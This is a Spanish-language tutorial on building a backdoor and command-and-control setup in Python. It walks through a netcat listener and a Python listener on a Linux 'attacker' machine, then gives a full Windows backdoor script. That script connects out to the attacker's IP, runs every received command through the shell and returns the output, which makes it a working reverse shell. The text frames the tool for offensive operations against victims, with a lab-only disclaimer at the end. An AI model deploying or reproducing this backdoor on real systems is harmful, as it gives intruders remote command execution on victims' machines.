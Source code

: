 
------
- TAG: #Desarrollo #Backdoors #Control #Remoto 
----

En esta clase, nos adentraremos en el mundo de los backdoors y los sistemas de Command and Control (**C&C**). Nuestro objetivo será crear un ejemplo práctico de un ejecutable que, una vez en la máquina víctima, nos permita operar desde un centro de comando y control creado manualmente en Python. Esta herramienta nos dará la capacidad de controlar y ejecutar una variedad de operaciones en la máquina comprometida de forma automática.

El backdoor que desarrollaremos actuará como una puerta trasera en la máquina objetivo, proporcionándonos acceso remoto y control sobre el sistema. Por otro lado, el sistema C&C será el centro de operaciones desde donde enviaremos comandos y recibiremos información de la máquina infectada. Este sistema es esencial en operaciones ofensivas avanzadas, ya que nos permite gestionar múltiples backdoors y coordinar acciones complejas en los sistemas comprometidos.

Durante la clase, exploraremos cómo se pueden diseñar y desplegar backdoors eficaces y cómo se estructura un sistema C&C para maximizar su efectividad. También abordaremos la importancia de los sistemas C2 (Command and Control) en la ciberseguridad ofensiva, especialmente en lo que respecta a la automatización y la gestión remota de tareas en máquinas comprometidas.

Esta sesión te proporcionará conocimientos prácticos y habilidades esenciales para entender y desarrollar sistemas de backdoors y C&C, herramientas fundamentales para cualquier operación ofensiva en el ámbito de la ciberseguridad.

---

# Implementación de Listener y Backdoor en Linux y Windows

En este tutorial, vamos a crear un proyecto simple de C2 (Command and Control) usando **Python** y **Netcat** para establecer conexiones entre una máquina atacante (Linux) y una víctima (Windows). Esto simula una comunicación cliente-servidor, donde la máquina Windows se conecta a la máquina atacante y ejecuta comandos.

---

## Parte 1: Configuración en Linux

### 1. Crear un directorio para el proyecto
Primero, creamos un directorio donde guardaremos los archivos del proyecto. Este directorio también será el lugar donde recibiremos la conexión desde la máquina Windows.

```bash
mkdir C2
cd C2
```

### 2. Probar la conexión con Netcat
Antes de escribir los scripts en Python, podemos realizar una prueba rápida con Netcat para asegurarnos de que nuestra máquina está escuchando conexiones en el puerto correcto.

```bash
nc -nlvp 443
```

Este comando:
- `-n`: No realiza resolución DNS.
- `-l`: Escucha conexiones entrantes.
- `-v`: Modo verbose, muestra más detalles sobre las conexiones.
- `-p 443`: Escucha en el puerto 443 (típico para conexiones HTTPS).

Si la prueba es exitosa, podemos proceder a crear un listener en Python.

### 3. Crear el listener en Python

Creamos un archivo llamado `listener.py` usando `nvim` o cualquier editor de texto:

```bash
nvim listener.py
```

Agregamos el siguiente script Python que actuará como el **servidor** o **listener** que espera conexiones entrantes:

```python
#!/usr/bin/python3

import socket

if __name__ == '__main__':

    # Crear un socket TCP/IP
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Habilitar la reutilización del puerto
    server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    # Asignar la IP del atacante y el puerto 443
    server_socket.bind(("ip_de_atacante", 443))

    # Escuchar conexiones entrantes
    server_socket.listen()
    print(f"\n[+] Listening for incoming connections...")

    # Aceptar la conexión del cliente
    client_socket, client_address = server_socket.accept()
    print(f"\n[+] Connection established by {client_address}")

    # Mantener la conexión activa para recibir comandos
    while True:
        command = input(">> ")  # Leer comando del atacante
        client_socket.send(command.encode())  # Enviar comando al cliente

        # Recibir la respuesta del comando ejecutado en la máquina víctima
        command_output = client_socket.recv(1024).decode()

        # Mostrar la salida del comando
        print(command_output)
```

#### Explicación del código:
- **Socket**: El script crea un socket de tipo TCP/IP usando `AF_INET` (familia de direcciones IPv4) y `SOCK_STREAM` (protocolo TCP).
- **REUSEADDR**: Habilita la reutilización del puerto para evitar el error "Address already in use".
- **Bind**: El servidor se asocia a la IP del atacante y al puerto 443.
- **Listen**: El servidor se pone en modo escucha esperando conexiones entrantes.
- **Accept**: Se acepta la conexión de un cliente y se guarda la información del cliente conectado.
- **Comandos**: Se envían comandos desde el atacante a la víctima y se muestran las respuestas.

---

## Parte 2: Configuración en Windows

### 1. Crear un archivo `.txt` y convertirlo en un Backdoor

En la máquina **Windows11**, creamos un archivo `.txt` para posteriormente convertirlo en un archivo Python (`backdoor.py`). Esto se puede hacer desde la línea de comandos de Windows.

### 2. Script de la Backdoor en Python

Ahora, abrimos **IDLE** o cualquier editor de texto en Windows y creamos un archivo llamado `backdoor.py` con el siguiente contenido:

```python
#!/usr/bin/python3

import socket
import subprocess

# Función para ejecutar comandos del sistema
def run_command(command):
    # Ejecuta el comando y captura su salida
    command_output = subprocess.check_output(command, shell=True)
    return command_output.decode("cp850")  # Usamos cp850 para codificación en Windows

if __name__ == '__main__':
    # Crear un socket TCP/IP
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Conectarse a la IP del atacante y el puerto 443
    client_socket.connect(("la_ip_atacante", 443))

    # Bucle infinito para recibir y ejecutar comandos
    while True:
        # Recibir comando del atacante
        command = client_socket.recv(1024).decode().strip()

        # Ejecutar el comando recibido y capturar la salida
        command_output = run_command(command)

        # Enviar la salida del comando

```python
        client_socket.send(b"\n" + command_output.encode() + b"\n\n")

    # Cerrar la conexión cuando termine
    client_socket.close()
```

#### Explicación del código:
- **subprocess**: El módulo `subprocess` permite ejecutar comandos del sistema operativo desde Python.
- **run_command**: Esta función ejecuta el comando recibido usando `subprocess.check_output()` y devuelve el resultado decodificado usando "cp850" (la codificación de caracteres que usa Windows por defecto en la consola).
- **Socket**: Similar al listener en Linux, este script crea un socket TCP que se conecta a la IP del atacante en el puerto 443.
- **recv**: Espera recibir un comando del servidor (la máquina atacante) y lo ejecuta en la máquina Windows.
- **send**: Envía el resultado del comando ejecutado de vuelta al servidor (máquina atacante).

---

### Nota Final:
Este tutorial es un ejemplo educativo de cómo se puede establecer una comunicación cliente-servidor entre dos máquinas mediante Python y sockets. El uso indebido de este tipo de scripts puede ser ilegal. Asegúrate de usarlo solo en entornos controlados y con fines educativos o de prueba dentro de un laboratorio.

---

